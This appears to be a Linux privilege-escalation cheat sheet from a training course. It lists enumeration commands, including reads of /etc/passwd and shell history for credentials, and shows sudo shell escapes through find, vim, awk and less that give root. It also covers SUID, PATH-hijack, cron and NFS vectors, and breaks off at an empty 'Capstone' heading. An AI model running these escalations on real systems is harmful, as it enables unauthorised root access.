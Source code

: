 - Identifying the system and environment (e.g., `hostname`, `uname -a`, `/etc/issue`)
- Reviewing running processes and permissions (e.g., `ps`, `id`, `sudo -l`)
- Investigating users, files, and history (e.g., `ls -la`, `/etc/passwd`, `history`)
- Exploring the network setup and connections (e.g., `ifconfig`, `netstat`, `ip route`)
- Locating tools, binaries, and sensitive files (e.g., `find`, `env`)

| **Command**                  | **Description**                                                                                              |     |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------ | --- |
| `hostname`                   | Displays system hostname; can hint at machine's role (e.g., SQL-PROD-01).                                    |     |
| `uname -a`                   | Shows detailed system and kernel information.                                                                |     |
| `/proc/version`              | Provides kernel version and compiler info (via procfs). (`cat /proc/version`)                                |     |
| `/etc/issue`                 | Displays OS version (can be customized).(`cat /etc/issue`)                                                   |     |
| `ps -A`, `ps aux`, `ps axjf` | Lists running processes, users, and process trees.                                                           |     |
| `env`                        | Shows environment variables like `PATH` which may include useful binaries.                                   |     |
| `sudo -l`                    | Lists commands the user can run with elevated privileges via `sudo`.                                         |     |
| `ls -la`                     | Lists files in a directory, showing hidden and permission details.                                           |     |
| `id`                         | Displays user ID, group ID, and group memberships.                                                           |     |
| `/etc/passwd`                | Lists system users; useful for enumeration and brute-force targeting. (`cat /etc/passwd \| cut -d "." -f 1`) |     |
| `history`                    | Shows previously executed commands; may expose credentials.                                                  |     |
| `ifconfig`                   | Displays network interfaces and IP addresses.                                                                |     |
| `ip route`                   | Reveals routing table and potential reachable networks.                                                      |     |
| `netstat -a/n/l/tp/s/i`      | Shows open ports, connections, network statistics, and interface data.                                       |     |
| `find`                       | Searches files by name, size, permissions, timestamps, or ownership.                                         |     |
| `find / -perm -u=s`          | Locates files with the SUID bit set (potential privilege escalation).                                        |     |
| `find / -writable -type d`   | Finds world-writable directories.                                                                            |     |
| `find / -name python*`       | Finds installed development tools or interpreters.                

# Kernel Exploit
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system. Ex: [exploit-db](https://www.exploit-db.com/)
3. Run the exploit 

# Sudo 
In order to exploiting sudo users, first you need to find which commands current user is allowed, using the **_sudo -l_** command
```sh
#Example
User andrea may run the following commands on viserion:
 (root) NOPASSWD: /usr/bin/find
 (root) NOPASSWD: /usr/bin/vim
 (root) NOPASSWD: /usr/bin/awk
```

```sh
andrea@viserion:~$ sudo find /etc/passwd -exec /bin/sh \;
# whoami
root
```

or the **-c** paramether of **vim**:

```sh
andrea@viserion:~$ sudo vim -c '!sh'
# whoami
root
```

```sh
Also **awk** allows the invocation of a shell:

andrea@viserion:~$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami
root
```

and **less**, **more** and **man** allows command execution:

 ## MISCELLANEOUS COMMANDS

```sh
-<flag> Toggle a command line option [see OPTIONS below].
 --<name> Toggle a command line option, by name.
 _<flag> Display the setting of a command line option.
 __<name> Display the setting of an option, by name.
 +cmd Execute the less cmd each time a new file is examined.
 **!command Execute the shell command with $SHELL.**
 |Xcommand Pipe file between current pos & mark X to shell command.
 v Edit the current file with $VISUAL or $EDITOR.
 V Print version number of "less".
```
So, simply call:

```sh
sudo less /etc/hosts
# or
sudo more /etc/hosts
# or
sudo man ls
```

Then press _**!sh**_ and hit enter.

# SUID
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
Search info on [GTFOBins](https://gtfobins.github.io)
# Capabilities
1. `getcap -r / 2>/dev/null`
2. [GTFOBins](https://gtfobins.github.io)
# Cron 
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.
# Path 
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
1. Searching writable folders
2. Export that folder to PATH
Ex:
	The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.
3. Place a malicious binary in writable folder:
```sh
cp /bin/bash /tmp/thm
chmod +x /tmp/thm
```
4. Run
```sh
./path
```
# NFS
NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users. The critical element for this privilege escalation vector is the **“no_root_squash”** option.
If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
1. Check for NFS shares from your machine:
```sh
showmount -e IP
```
2. 📁 **Mount the NFS share to your local directory**:
# Capstone